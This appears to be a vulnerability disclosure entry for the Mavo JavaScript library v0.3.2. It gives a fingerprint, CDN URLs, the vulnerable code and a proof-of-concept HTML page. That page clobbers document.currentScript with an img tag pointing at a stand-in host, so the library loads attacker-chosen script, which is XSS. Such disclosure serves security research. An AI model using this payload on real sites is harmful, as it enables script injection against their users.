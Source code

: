 ## Mavo

### Meta

+ Library: Mavo
+ Stars: 2.8k
+ Version: v0.3.2
+ Fingerprint: `typeof Mavo !== 'undefined' && Mavo.hasOwnProperty('Plugins')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/mavoweb/mavo

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.min.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.min.js`
+ `https://cdn.jsdelivr.net/npm/mavo@0.3.2/dist/mavo.min.js`

### Vulnerable Code Snippet

```javascript
if (o.dependencies) {
    let base = document.currentScript? document.currentScript.src : location;
    let dependencies = o.dependencies.map(url => Mavo.load(url, base));
    ready.push(...dependencies);
}
```

## PoC

```html
<image name=currentScript src="http://localhost:8000"></img>

<script src="https://get.mavo.io/stable/mavo.js"></script>
<link rel="stylesheet" href="https://get.mavo.io/stable/mavo.css">

<script>
(function ($, $$) {

Mavo.Plugins.register("myplugin", {
	dependencies: ["a.js"],
});

})(Bliss, Bliss.$);
</script>
```
